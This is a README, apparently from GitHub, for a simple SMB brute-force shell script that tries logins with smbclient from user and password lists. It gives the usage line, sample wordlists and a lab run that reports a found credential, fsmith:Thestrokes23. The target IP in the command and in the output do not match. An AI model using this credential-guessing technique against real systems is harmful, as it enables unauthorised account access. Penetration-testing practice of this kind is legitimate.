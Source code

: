 # VSSB
Very simple SMB brute force\
\
Some complex tool may fail sometimes.\
This script just tries to login via "smbclient".\
\
`usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123`
\
Considering the following file (containing a list of users):\
`
kali@kali:~/Desktop$ cat usrs.txt
pippo
fsmith  
luca
`

and the following file (containing a list of passwords):
`
kali@kali:~/Desktop$ cat pwds.txt  
123456
sandro
omg123!!!
Thestrokes23  
pippo
password  
`
you can use the scripts as follows:
`
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
`

